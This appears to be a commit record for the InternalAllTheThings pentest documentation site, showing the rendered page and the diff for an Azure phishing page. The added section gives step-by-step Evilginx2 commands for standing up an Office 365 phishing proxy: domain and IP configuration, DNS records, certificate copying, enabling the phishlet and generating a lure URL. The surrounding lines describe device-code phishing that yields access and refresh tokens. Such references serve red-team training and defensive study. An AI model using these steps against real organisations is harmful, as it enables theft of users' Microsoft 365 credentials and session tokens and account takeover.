

Before and after one commit to swisskyrepo/InternalAllTheThings, an MkDocs documentation site: the page built from docs/cloud/azure/azure-phishing.md, in a window 1280 px wide and 900 px high, scrolled down 3331 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; emoji names are drawn with the system emoji font; comment, search, counter and statistics services are not loaded; before the commit the page ends 3736 px from its top, so only the background shows below that.

Commit message:
Evilginx Phishlet

````diff
--- a/docs/cloud/azure/azure-phishing.md
+++ b/docs/cloud/azure/azure-phishing.md
@@ -98,3 +98,26 @@
 * Leave TokenTactics running in the PowerShell window and send the phishing email
 * Targeted user will follow the link to https://microsoft.com/devicelogin and complete the Device Code form
 * Enjoy your **access token** and **refresh token**
+
+
+## Phishing with Evilginx2
+
+* Run `evilginx2` with o365 phishlet
+    ```powershell
+    PS C:\Tools> evilginx2 -p C:\Tools\evilginx2\phishlets
+    : config domain username.corp
+    : config ip 10.10.10.10
+    : phishlets hostname o365 login.username.corp
+    : phishlets get-hosts o365
+    ```
+* Create a DNS entry type A for `login.login.username.corp` and `www.login.username.corp`, pointing to your machine
+* Copy certificate and enable the phishing
+    ```ps1
+    PS C:\Tools> Copy-Item C:\Users\Username\.evilginx\crt\ca.crt C:\Users\Username\.evilginx\crt\login.username.corp\o365.crt
+    PS C:\Tools> Copy-Item C:\Users\Username\.evilginx\crt\private.key C:\Users\Username\.evilginx\crt\login.username.corp\o365.key
+    : phishlets enable o365
+
+    # get the phishing URL
+    : lures create o365
+    : lures get-url 0
+    ```
````
Also changed, not shown: docs/cloud/azure/Cloud - Azure Pentest.md (+0 -23 lines), docs/cloud/azure/azure-access-and-token.md (+4 -2 lines), docs/cloud/azure/azure-devices-users-services.md (+11 -0 lines), docs/cloud/azure/azure-services.md (+2 -2 lines).
